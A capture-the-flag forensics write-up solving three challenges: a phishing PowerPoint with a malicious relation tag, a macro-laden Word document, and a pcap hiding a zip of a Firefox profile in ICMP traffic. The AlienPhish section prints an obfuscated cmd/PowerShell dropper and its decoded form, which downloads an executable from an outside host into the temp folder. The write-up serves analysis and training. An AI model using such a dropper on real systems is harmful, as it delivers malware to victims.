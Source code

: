 # Forensics

## AlienPhish

> Solved by : Starry-Lord

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

## Invitation

> Solved By : Starry-Lord

* So we get a docm file. 
* I start by unzippping the word document 
* We get more directories


![](https://i.imgur.com/Q7ZRb7J.jpg)

**PART 1**

* First thing I tried to do after checking contents was:

```bash
strings vbaProject.bin
```

* Which gives back interesting hex lines. 

![](https://i.imgur.com/knF1In2.jpg)

* Then decrypt from hex

![](https://i.imgur.com/RNhR8uO.jpg)

* From base64 urlsafe alphabet will show the following 

![](https://i.imgur.com/clunBcD.jpg)

```
CHTB{maldocs_are
```

**PART 2**

* Upload full vbaProject file this time and do the same as before. 

![](https://i.imgur.com/wgeYgSG.jpg)

* Use base64 urlsafe alphabet
* We get second part of the flag by reversing

```
_the_new_meta}
```
```
CHTB{maldocs_are_the_new_meta}
```

*EDIT:*

Later on, I realised the encoding was actually UTF-16LE(1200), which is commonly used for encoding powershell payloads. 
---

## Oldest trick in the book

> Solved by : thewhiteh4t


* We are given a pcap which consists of mostly TLS and ICMP traffic
* ICMP looks promising as we can see the header of ZIP file `PK`

![](https://i.imgur.com/bcZ05AG.png)

* Another thing was that the the traffic from both IP address was similar I focused on only one of them


![](https://i.imgur.com/Iq12mh1.png)

* To extract data of all these packets I used tshark

```bash
$ tshark -r older_trick.pcap -T fields -e data.data -Y "ip.src == 192.168.1.7" > 192.168.1.7.txt
```

* After this I looked for duplicate packets in the text file

![](https://i.imgur.com/NoiYgXk.png)

* So we have 10127 unique icmp data packets
* To decode hex and compile all the data I created a small python script
* But I was not getting proper file format of resultant file so I inspected the data
* There were duplicates in the data as well!

```
b7ae04 0000000000 504b0304140000000000729e8d52659b 504b0304140000000000729e8d52659b 504b030414000000
ead104 0000000000 4c6b1800000018000000100000006669 4c6b1800000018000000100000006669 4c6b180000001800
99e804 0000000000 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e
cafb04 0000000000 736368656d61223a362c226164646f6e 736368656d61223a362c226164646f6e 736368656d61223a
```

* This is the data from first 4 packets for an example
* After first 6 characters we have 10 zeroes
* After that a unique string
* The string is repeated after that
* Then a partial repetition can be seen at the end
* I tried various combinations and in the end only the unique string was needed from each packet i.e `504b0304140000000000729e8d52659b` for first line as an example

```python
#!/usr/bin/env python3
import binascii
msg = []
with open('unique.txt', 'r') as raw:
    raw_arr = raw.readlines()
for line in raw_arr:
    if len(line) == 97:
        line = line.strip()
        line = line[16:48]
        plain = binascii.unhexlify(line)
        msg.append(plain)
with open('result.zip', 'wb') as res:
    for line in msg:
        res.write(line)
```

* The script iterates over each line in the file and skips empty lines if it finds any
* Then it slices of extra characters as stated above
* Then it decodes the hex into binary data and appends it in a file

![](https://i.imgur.com/H2fC7L3.png)

* And we get a proper zip file!
* Here are the extracted contents of the zip

![](https://i.imgur.com/8a1GAJB.png)

* After some enumeration of all files they point towards Mozilla Firefox
* After some googling I found that this is a firefox profile dump
* In linux the default path for profiles is `/home/user/.mozilla/firefox`
* I copied the folder into profiles folder and then edited the `profiles.ini` file present inside it to add the following entry

```
[Profile2]
Name=fini
Path=fini
IsRelative=1
```

* After this I launched firefox from CLI using 

```bash
$ firefox -P
```

* It provides an option to choose a specific profile and launch the browser with it

![](https://i.imgur.com/KZzqT9x.png)

* After the browser launched with the new profile and checked the saved logins and here we have the flag!

![](https://i.imgur.com/dHKQmSM.png)
